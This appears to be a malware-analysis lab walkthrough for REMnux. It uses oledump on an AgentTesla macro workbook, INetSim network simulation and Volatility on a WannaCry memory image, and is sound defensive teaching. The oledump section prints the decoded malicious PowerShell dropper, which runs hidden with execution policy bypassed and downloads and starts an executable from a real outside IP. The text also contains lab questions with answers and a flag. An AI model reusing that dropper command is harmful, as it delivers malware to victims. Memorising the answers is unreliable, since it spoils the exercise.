# [REMnux - Getting Started]()

## File analysis

Analysing potentially malicious software can be daunting, especially when this is part of an ongoing security incident. This analysis puts much pressure on the analyst. Most of the time, the results must be as accurate as possible, and analysts use different tools, machines, and environments to achieve this.

`Oledump.py` is a Python tool that analyzes **OLE2** files, commonly called Structured Storage or Compound File Binary Format. **OLE** stands for **Object Linking and Embedding,** a proprietary technology developed by Microsoft. OLE2 files are typically used to store multiple data types, such as documents, spreadsheets, and presentations, within a single file. This tool is handy for extracting and examining the contents of OLE2 files, making it a valuable resource for forensic analysis and malware detection.



 Based on OleDump's file analysis, a VBA script might be embedded in the document and found inside `xl/vbaProject.bin`. Therefore, oledump will assign this with an index of A, though this can sometimes differ. The A (index) +Numbers are called **data streams**.

Now, we should be aware of the data stream with the capital letter **M**. This means there is a **Macro**, and you might want to check out this data stream, `'VBA/ThisWorkbook'`.

Let's run the command `oledump.py agenttesla.xlsm -s 4`. This command will run the oledump and look into the actual data stream of interest using the parameter `-s 4`,  wherein the `-s` parameter is short for `-select`  and the number four(`4`) as the data stream of interest is in the 4th place(`A4: M 688 'VBA/ThisWorkbook'`).

```-shell-session
00000000: 01 AC B2 00 41 74 74 72  69 62 75 74 00 65 20 56  ....Attribut.e V
00000010: 42 5F 4E 61 6D 00 65 20  3D 20 22 54 68 69 00 73  B_Nam.e = "Thi.s
00000020: 57 6F 72 6B 62 6F 6F 10  6B 22 0D 0A 0A 8C 42 61  Workboo.k"....Ba
00000030: 73 01 02 8C 30 7B 30 30  30 32 30 50 38 31 39 2D  s...0{00020P819-
00000040: 00 10 30 03 08 43 23 05  12 03 00 34 36 7D 0D 7C  ..0..C#....46}.|
00000050: 47 6C 10 6F 62 61 6C 01  D0 53 70 61 82 63 01 92  Gl.obal..Spa.c..
00000060: 46 61 6C 73 65 0C 25 00  43 72 65 61 74 61 62 6C  False.%.Creatabl
00000070: 01 15 1F 50 72 65 64 65  63 6C 12 61 00 06 49 64  ...Predecl.a..Id
00000080: 00 23 54 72 75 81 0D 22  45 78 70 6F 73 65 01 1C  .#Tru.."Expose..
00000090: 01 11 40 54 65 6D 70 6C  61 74 40 65 44 65 72 69  ..@Templat@eDeri
000000A0: 76 96 12 43 80 75 73 74  6F 6D 69 7A 84 44 0D 83  v..C.ustomiz.D..
000000B0: 32 50 80 18 80 1C 20 53  75 62 02 20 05 92 5F 4F  2P.... Sub. .._O
000000C0: 70 65 6E 28 00 29 0D 0A  44 69 6D 20 53 00 71 74  pen(.)..Dim S.qt
000000D0: 6E 65 77 20 41 73 04 20  53 80 25 6E 67 2C 20 73  new As. S.%ng, s
000000E0: C0 4F 75 74 70 75 74 07  09 03 14 00 4D 67 67 63  .Output.....Mggc
000000F0: 62 6E 75 61 02 64 01 0C  4F 62 6A 65 63 74 42 2C  bnua.d..ObjectB,
00000100: 07 0A 45 78 65 63 07 0C  0D 06 0A 04 2B 00 BD 5E  ..Exec......+..^
00000110: 70 2A 6F 5E 00 2A 77 2A  65 2A 72 2A 73 10 5E 5E  p*o^.*w*e*r*s.^^
00000120: 2A 68 80 04 6C 5E 2A 00  6C 2A 20 2A 5E 2D 2A 57  *h..l^*.l* *^-*W
00000130: 00 2A 69 2A 6E 2A 5E 64  2A 00 6F 2A 77 5E 2A 53  .*i*n*^d*.o*w^*S
00000140: 2A 74 A0 2A 79 2A 5E 6C  00 11 20 00 14 02 69 01  *t.*y*^l.. ...i.
00000150: 0C 64 2A 5E 65 2A 6E 2A  5E 00 08 2D 00 0B 78 41  .d*^e*n*^..-..xA
00000160: 03 63 2A 12 75 00 0A 5E  69 00 0D 6E 2A 70 40 6F  .c*.u..^i..n*p@o
00000170: 6C 5E 69 63 79 C0 07 62  00 2A 79 70 5E 5E 61 73  l^icy..b.*yp^^as
00000180: 73 20 2A 3B 2A 20 24 01  4D 46 69 0A 6C 41 12 3D  s *;* $.MFi.lA.=
00000190: C0 00 5B 2A 49 2A 80 4F  2A 2E 2A 50 2A 61 C0 0E  ..[*I*.O*.*P*a..
000001A0: 00 68 2A 5D 2A 3A 3A 47  65 1A 74 40 09 2A 83 09  .h*]*::Ge.t@.*..
000001B0: 41 79 28 29 20 40 7C 20  52 65 6E 5E C0 02 2D 00  Ay() @| Ren^..-.
000001C0: 49 74 5E 65 6D 20 2D 4E  04 65 77 42 9A 7B 20 24  It^em -N.ewB.{ $
000001D0: 5F 20 18 2D 72 65 40 62  40 82 27 74 6D 00 70 24  _ .-re@b@.'tm.p$
000001E0: 27 2C 20 27 65 78 80 65  27 20 7D 20 96 50 C1 1D  ', 'ex.e' } .P..
000001F0: 00 54 68 72 75 3B 20 49  6E 00 5E 76 6F 2A 6B 65  .Thru; In.^vo*ke
00000200: 2D 57 00 65 5E 62 52 65  2A 71 75 00 65 73 74 20  -W.e^bRe*qu.est 
00000210: 2D 55 5E 72 00 69 20 22  22 68 74 74 70 00 3A 2F  -U^r.i ""http.:/
00000220: 2F 31 39 33 2E 32 02 30  C3 00 36 37 2F 72 74 2F  /193.2.0..67/rt/
00000230: 00 44 6F 63 2D 33 37 33  37 80 31 32 32 70 64 66  .Doc-3737.122pdf
00000240: 2E 00 16 D0 22 22 20 2D  00 63 2A C1 27 07 34 02  ...."" -.c*.'.4.
00000250: 3B 80 65 2A 61 72 74 2D  50 80 72 6F 63 65 2A 73  ;.e*art-P.roce*s
00000260: 73 88 06 2B 00 B0 46 5E  52 83 2A 28 03 04 2C 20  s..+..F^R.*(.., 
00000270: 68 22 2A 22 00 01 22 C0  7D 97 08 5E 49 86 08 65  h"*"..".}..^I..e
00000280: 74 48 7C 3D 20 C2 B8 65  01 43 77 28 22 57 53 63  tH|= ..e.Cw("WSc
00000290: 72 69 00 70 74 2E 53 68  65 6C 6C EB 8E 0B C2 82  ri.pt.Shell.....
000002A0: 3D C7 03 2E 01 04 C4 18  C0 0A 08 45 6E 64 81 A3  =..........End..
```

We will run an additional parameter `--vbadecompress` in addition to the previous command. When we use this parameter, oledump will automatically decompress any compressed VBA macros it finds into a more readable format, making it easier to analyze the contents of the macros.



Our interest here would be the value of **Sqtnew** because if you check the script, there is a Public IP, a PDF, and a .exe inside. We might want to look into this further.

We will copy the first value of **Sqtnew** and paste it into **CyberChef's** input area.

Next, select the **Find/Replace** operation twice. Looking back at the script, the 2nd and 3rd values of Sqtnew have a command to replace * with "" and ^ with "". We would assume that the "" means there is no value. So, with our first operation selected, we put the value * and selected **SIMPLE STRING** as additional parameters. In contrast, **we did not put anything on the Replace box** or have any value.  The same applies to our second operation: we put the value ^ and selected SIMPLE STRING, and the replace box has no value. 



The resulting string:

```powershell
powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;
```

- Running the `-WindowStyle` parameter allows you to control how the PowerShell window appears when executing a script or command. In this case, `hidden` means that the PowerShell window **won’t be visible to the user**.
- By default, PowerShell restricts script execution for security reasons. The `-executionpolicy` parameter allows you to override this policy. The `bypass` means that the **execution policy is temporarily ignored**, allowing any script to run without restriction.
- The `Invoke-WebRequest` is commonly used for downloading files from the internet.
    - The `-Uri` Specifies the URL of the web resource you want to retrieve. In our case, the script is downloading the resource `Doc-3737122pdf.exe` from `http://193.203.203.67/rt`/.
    - The `-OutFile` specifies the local file where the downloaded content will be saved.  In this case, the Doc-3737122pdf.exe will be saved to $TempFile.
- The `Start-Process` is used to execute the downloaded file that is stored in `$TempFile` after the web request.

To summarize, when the document `agenttesla.xlsm` is opened, a Macro will run! This Macro contains a VBA script. The script will run and will be running a PowerShell to download a file named `Doc-3737122pdf.exe` from `http://193.203.203.67/rt/`, save it to a variable $TempFile, then execute or start running the file inside this variable, which is a binary or a .exe file (`Doc-3737122pdf.exe`**)**. This is a usual technique used by threat actors to avoid early detection.

### Questions

Q: What Python tool analyzes OLE2 files, commonly called Structured Storage or Compound File Binary Format?

A: `oledump.py`

Q: What tool parameter we used in this task allows you to select a particular data stream of the file we are using it with?

A: `-s`

Q: During our analysis, we were able to decode a PowerShell script. What command is commonly used for downloading files from the internet?

A: `Invoke-WebRequest`

Q: What file was being downloaded using the PowerShell script?

A: ``Doc-3737122pdf.exe``

Q: During our analysis of the PowerShell script, we noted that a file would be downloaded. Where will the file being downloaded be stored?

A: `$TempFile`

Q: Using the tool, scan another file named **possible_malicious.docx** located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. How many data streams were presented for this file?



A: `16`

Q: Using the tool, scan another file named **possible_malicious.docx** located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. At what data stream number does the tool indicate a macro present?

We need to look for the 'M' in between the first and second columns.

A: `8`

## Fake Network to Aid Analysis

During dynamic analysis, it is essential to observe the behaviour of potentially malicious software—especially its network activities. There are many approaches to this. We can create a whole infrastructure, a virtual environment with different core machines, and more. Alternatively, there is a tool inside our REMnux VM called **INetSim: Internet Services Simulation Suite****!**

We will utilize INetSim's features to simulate a real network.

### INetSim

Before we start, we must configure the tool INetSim inside our REMnux VM. Do not worry; this is a simple change of configuration. First, check the IP address assigned to your machine.

Next, we need to change the INetSim configuration by running this command `sudo nano /etc/inetsim/inetsim.conf` and look for the value `#dns_default_ip 0.0.0.0`.



Run the command `sudo inetsim` to start the tool.

```bash
ubuntu@10.80.169.119:~$ sudo inetsim
INetSim 1.3.2 (2020-05-19) by Matthias Eckert & Thomas Hungenberg
Using log directory:      /var/log/inetsim/
Using data directory:     /var/lib/inetsim/
Using report directory:   /var/log/inetsim/report/
Using configuration file: /etc/inetsim/inetsim.conf
Parsing configuration file.
Warning: Unknown option '/var/log/inetsim/report/report.104162.txt#start_service' in configuration file '/etc/inetsim/inetsim.conf' line 43
Configuration file parsed successfully.
=== INetSim main process started (PID 4859) ===
Session ID:     4859
Listening on:   10.80.169.119
Real Date/Time: 2024-09-22 17:38:22
Fake Date/Time: 2024-09-22 17:38:22 (Delta: 0 seconds)
 Forking services...
  * dns_53_tcp_udp - started (PID 4863)
  * http_80_tcp - failed!
  * https_443_tcp - started (PID 4865)
  * ftps_990_tcp - started (PID 4871)
  * pop3_110_tcp - started (PID 4868)
  * smtp_25_tcp - started (PID 4866)
  * ftp_21_tcp - started (PID 4870)
  * pop3s_995_tcp - started (PID 4869)
  * smtps_465_tcp - started (PID 4867)
 done.
Simulation running.
```

### Using your attack box

From your laptop/attack box, open a browser and go to our REMnux's IP address using the command `https://10.80.169.119`. This will prompt a Security Risk; ignore it, click **Advance**, then **Accept the Risk and Continue.**



One usual malware behaviour is downloading another binary or script. We will try to mimic this behaviour by getting another file from INetsim. We can do this via the CLI or browser, but let's use the CLI to make it more realistic. Use this command: `sudo wget https://10.80.169.119/second_payload.zip --no-check-certificate`.



To verify that the files were downloaded, check your root folder.



What we did here is **mimic a malware's behaviour**, wherein it will try to reach out to a server or URL and then **download a secondary file that may contain another malware**.

Lastly, go back to your REMnux VM and stop INetSim. By default, it will create a report on its captured connections. This is usually saved in **/var/log/inetsim/report/** directory. You should be able to see something like this.

```bash
Report written to '/var/log/inetsim/report/report.2594.txt' (14 lines)
=== INetSim main process stopped (PID 2594) ===
```

Read the file using this command `sudo cat /var/log/inetsim/report/report.2594.txt`.

```bash
ubuntu@10.80.169.119:~$ sudo cat /var/log/inetsim/report/report.2594.txt
=== Report for session '2594' ===

Real start date            : 2024-09-22 21:04:42
Simulated start date       : 2024-09-22 21:04:42
Time difference on startup : none

2024-09-22 21:04:53  First simulated date in log file
2024-09-22 21:04:53  HTTPS connection, method: GET, URL: https://10.80.169.119/, file name: /var/lib/inetsim/http/fakefiles/sample.html
2024-09-22 21:16:07  HTTPS connection, method: GET, URL: https://10.80.169.119/test.exe, file name: /var/lib/inetsim/http/fakefiles/sample_gui.exe
2024-09-22 21:18:37  HTTPS connection, method: GET, URL: https://10.80.169.119/second_payload.ps1, file name: /var/lib/inetsim/http/fakefiles/sample.html
2024-09-22 21:18:49  HTTPS connection, method: GET, URL: https://10.80.169.119/second_payload.zip, file name: /var/lib/inetsim/http/fakefiles/sample.html
2024-09-22 21:18:49  Last simulated date in log file
===
```

### Questions

Q: Download and scan the file named **flag.txt** from the terminal using the command sudo wget https://10.80.169.119/flag.txt --no-check-certificate. What is the flag?



A: `Tryhackme{remnux_edition}`

Q: After stopping the inetsim, read the generated report. Based on the report, what URL Method was used to get the file flag.txt?



A: `GET`


## Memory Investigation: Evidence Preprocessing

One of the most common investigative practices in Digital Forensics is the preprocessing of evidence. This involves running tools and saving the results in text or JSON format. The analyst often relies on tools such as Volatility when dealing with memory images as evidence. Volatility commands are executed to identify and extract specific artefacts from memory images, and the resulting output can be saved to text files for further examination. Similarly, we can run a script involving the tool's different parameters to preprocess the acquired evidence faster.

### Preprocessing With Volatility

In this task, we will use the Volatility 3 tool version. However, we won’t go deep into the investigation and analysis part of the result—we could write a whole book about it! Instead, we want you to be familiar with and get a feel for how the tool works. Run the command as instructed and wait for the result to show. Each plugin takes 2-3 minutes to show the output.

Here are some of the parameters or plugins we will use. We will focus on Windows plugins.

- windows.pstree.PsTree
- windows.pslist.PsList
- windows.cmdline.CmdLine
- windows.filescan.FileScan
- windows.dlllist.DllList
- windows.malfind.Malfind
- windows.psscan.PsScan

We will run each plugin after the command `vol3 -f wcry.mem`.

### PsTree

This plugin lists processes in a tree based on their parent process ID.

```bash
vol3 -f wcry.mem windows.pstree.PsTree
```

Results:

```powershell
PID	PPID	ImageFileName	Offset(V)	Threads	Handles	SessionId	Wow64	CreateTime	ExitTime

4	0	System	0x823c8830	51	244	N/A	False	N/A	N/A
* 348	4	smss.exe	0x82169020	3	19	N/A	False	2017-05-12 21:21:55.000000 	N/A
** 620	348	winlogon.exe	0x8216e020	23	536	0	False	2017-05-12 21:22:01.000000 	N/A
*** 664	620	services.exe	0x821937f0	15	265	0	False	2017-05-12 21:22:01.000000 	N/A
**** 1024	664	svchost.exe	0x821af7e8	79	1366	0	False	2017-05-12 21:22:03.000000 	N/A
***** 1768	1024	wuauclt.exe	0x81f747c0	7	132	0	False	2017-05-12 21:22:52.000000 	N/A
***** 1168	1024	wscntfy.exe	0x81fea8a0	1	37	0	False	2017-05-12 21:22:56.000000 	N/A
**** 1152	664	svchost.exe	0x821bea78	10	173	0	False	2017-05-12 21:22:06.000000 	N/A
**** 544	664	alg.exe	0x82010020	6	101	0	False	2017-05-12 21:22:55.000000 	N/A
**** 836	664	svchost.exe	0x8221a2c0	19	211	0	False	2017-05-12 21:22:02.000000 	N/A
**** 260	664	svchost.exe	0x81fb95d8	5	105	0	False	2017-05-12 21:22:18.000000 	N/A
**** 904	664	svchost.exe	0x821b5230	9	227	0	False	2017-05-12 21:22:03.000000 	N/A
**** 1484	664	spoolsv.exe	0x821e2da0	14	124	0	False	2017-05-12 21:22:09.000000 	N/A
**** 1084	664	svchost.exe	0x8203b7a8	6	72	0	False	2017-05-12 21:22:03.000000 	N/A
*** 676	620	lsass.exe	0x82191658	23	353	0	False	2017-05-12 21:22:01.000000 	N/A
** 596	348	csrss.exe	0x82161da0	12	352	0	False	2017-05-12 21:22:00.000000 	N/A
1636	1608	explorer.exe	0x821d9da0	11	331	0	False	2017-05-12 21:22:10.000000 	N/A
* 1956	1636	ctfmon.exe	0x82231da0	1	86	0	False	2017-05-12 21:22:14.000000 	N/A
* 1940	1636	tasksche.exe	0x82218da0	7	51	0	False	2017-05-12 21:22:14.000000 	N/A
** 740	1940	@WanaDecryptor@	0x81fde308	2	70	0	False	2017-05-12 21:22:22.000000 	N/A
```

### PsList

This plugin is used to list all currently active processes in the machine.

```bash
vol3 -f wcry.mem windows.pslist.PsList
```

Results: 

```powershell
PID	PPID	ImageFileName	Offset(V)	Threads	Handles	SessionId	Wow64	CreateTime	ExitTime	File output

4	0	System	0x823c8830	51	244	N/A	False	N/A	N/A	Disabled
348	4	smss.exe	0x82169020	3	19	N/A	False	2017-05-12 21:21:55.000000 	N/A	Disabled
596	348	csrss.exe	0x82161da0	12	352	0	False	2017-05-12 21:22:00.000000 	N/A	Disabled
620	348	winlogon.exe	0x8216e020	23	536	0	False	2017-05-12 21:22:01.000000 	N/A	Disabled
664	620	services.exe	0x821937f0	15	265	0	False	2017-05-12 21:22:01.000000 	N/A	Disabled
676	620	lsass.exe	0x82191658	23	353	0	False	2017-05-12 21:22:01.000000 	N/A	Disabled
836	664	svchost.exe	0x8221a2c0	19	211	0	False	2017-05-12 21:22:02.000000 	N/A	Disabled
904	664	svchost.exe	0x821b5230	9	227	0	False	2017-05-12 21:22:03.000000 	N/A	Disabled
1024	664	svchost.exe	0x821af7e8	79	1366	0	False	2017-05-12 21:22:03.000000 	N/A	Disabled
1084	664	svchost.exe	0x8203b7a8	6	72	0	False	2017-05-12 21:22:03.000000 	N/A	Disabled
1152	664	svchost.exe	0x821bea78	10	173	0	False	2017-05-12 21:22:06.000000 	N/A	Disabled
1484	664	spoolsv.exe	0x821e2da0	14	124	0	False	2017-05-12 21:22:09.000000 	N/A	Disabled
1636	1608	explorer.exe	0x821d9da0	11	331	0	False	2017-05-12 21:22:10.000000 	N/A	Disabled
1940	1636	tasksche.exe	0x82218da0	7	51	0	False	2017-05-12 21:22:14.000000 	N/A	Disabled
1956	1636	ctfmon.exe	0x82231da0	1	86	0	False	2017-05-12 21:22:14.000000 	N/A	Disabled
260	664	svchost.exe	0x81fb95d8	5	105	0	False	2017-05-12 21:22:18.000000 	N/A	Disabled
740	1940	@WanaDecryptor@	0x81fde308	2	70	0	False	2017-05-12 21:22:22.000000 	N/A	Disabled
1768	1024	wuauclt.exe	0x81f747c0	7	132	0	False	2017-05-12 21:22:52.000000 	N/A	Disabled
544	664	alg.exe	0x82010020	6	101	0	False	2017-05-12 21:22:55.000000 	N/A	Disabled
1168	1024	wscntfy.exe	0x81fea8a0	1	37	0	False	2017-05-12 21:22:56.000000 	N/A	Disabled
```

### CmdLine

This plugin is used to list process command line arguments.

```bash
vol3 -f wcry.mem windows.cmdline.CmdLine
```

Results:

```powershell
PID	Process	Args

4	System	Required memory at 0x10 is not valid (process exited?)
348	smss.exe	\SystemRoot\System32\smss.exe
596	csrss.exe	C:\WINDOWS\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,3072,512 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=winsrv:ConServerDllInitialization,2 ProfileControl=Off MaxRequestThreads=16
620	winlogon.exe	winlogon.exe
664	services.exe	C:\WINDOWS\system32\services.exe
676	lsass.exe	C:\WINDOWS\system32\lsass.exe
836	svchost.exe	C:\WINDOWS\system32\svchost -k DcomLaunch
904	svchost.exe	C:\WINDOWS\system32\svchost -k rpcss
1024	svchost.exe	C:\WINDOWS\System32\svchost.exe -k netsvcs
1084	svchost.exe	C:\WINDOWS\system32\svchost.exe -k NetworkService
1152	svchost.exe	C:\WINDOWS\system32\svchost.exe -k LocalService
1484	spoolsv.exe	C:\WINDOWS\system32\spoolsv.exe
1636	explorer.exe	C:\WINDOWS\Explorer.EXE
1940	tasksche.exe	"C:\Intel\ivecuqmanpnirkt615\tasksche.exe" 
1956	ctfmon.exe	"C:\WINDOWS\system32\ctfmon.exe" 
260	svchost.exe	C:\WINDOWS\system32\svchost.exe -k LocalService
740	@WanaDecryptor@	@WanaDecryptor@.exe
1768	wuauclt.exe	"C:\WINDOWS\system32\wuauclt.exe" /RunStoreAsComServer Local\[400]SUSDS81a6658cb72fa845814e75cca9a42bf2
544	alg.exe	C:\WINDOWS\System32\alg.exe
1168	wscntfy.exe	C:\WINDOWS\system32\wscntfy.exe
```

  
### FileScan

This plugin scans for file objects in a particular Windows memory image. The results have more than 1,400 lines.

```bash
vol3 -f wcry.mem windows.filescan.FileScan
```

### PsScan

This plugin is used to scan for processes present in a particular Windows memory image.

PsList provides a list of running processes, showing details like PID and process name. PsScan, on the other hand, scans for process structures in memory regardless of whether they are currently active, allowing it to find processes that may have been terminated or hidden. This makes PsScan useful for detecting suspicious activity that might not appear in the standard process list.

```bash
vol3 -f wcry.mem windows.psscan.PsScan
```

Results:

```powershell
PID	PPID	ImageFileName	Offset(V)	Threads	Handles	SessionId	Wow64	CreateTime	ExitTime	File output
860	1940	taskdl.exe	0x1f4daf0	0	-	0	False	2017-05-12 21:26:23.000000 	2017-05-12 21:26:23.000000 	Disabled
536	1940	taskse.exe	0x1f53d18	0	-	0	False	2017-05-12 21:26:22.000000 	2017-05-12 21:26:23.000000 	Disabled
424	1940	@WanaDecryptor@	0x1f69b50	0	-	0	False	2017-05-12 21:25:52.000000 	2017-05-12 21:25:53.000000 	Disabled
1768	1024	wuauclt.exe	0x1f747c0	7	132	0	False	2017-05-12 21:22:52.000000 	N/A	Disabled
576	1940	@WanaDecryptor@	0x1f8ba58	0	-	0	False	2017-05-12 21:26:22.000000 	2017-05-12 21:26:23.000000 	Disabled
260	664	svchost.exe	0x1fb95d8	5	105	0	False	2017-05-12 21:22:18.000000 	N/A	Disabled
740	1940	@WanaDecryptor@	0x1fde308	2	70	0	False	2017-05-12 21:22:22.000000 	N/A	Disabled
1168	1024	wscntfy.exe	0x1fea8a0	1	37	0	False	2017-05-12 21:22:56.000000 	N/A	Disabled
544	664	alg.exe	0x2010020	6	101	0	False	2017-05-12 21:22:55.000000 	N/A	Disabled
1084	664	svchost.exe	0x203b7a8	6	72	0	False	2017-05-12 21:22:03.000000 	N/A	Disabled
596	348	csrss.exe	0x2161da0	12	352	0	False	2017-05-12 21:22:00.000000 	N/A	Disabled
348	4	smss.exe	0x2169020	3	19	N/A	False	2017-05-12 21:21:55.000000 	N/A	Disabled
620	348	winlogon.exe	0x216e020	23	536	0	False	2017-05-12 21:22:01.000000 	N/A	Disabled
676	620	lsass.exe	0x2191658	23	353	0	False	2017-05-12 21:22:01.000000 	N/A	Disabled
664	620	services.exe	0x21937f0	15	265	0	False	2017-05-12 21:22:01.000000 	N/A	Disabled
1024	664	svchost.exe	0x21af7e8	79	1366	0	False	2017-05-12 21:22:03.000000 	N/A	Disabled
904	664	svchost.exe	0x21b5230	9	227	0	False	2017-05-12 21:22:03.000000 	N/A	Disabled
1152	664	svchost.exe	0x21bea78	10	173	0	False	2017-05-12 21:22:06.000000 	N/A	Disabled
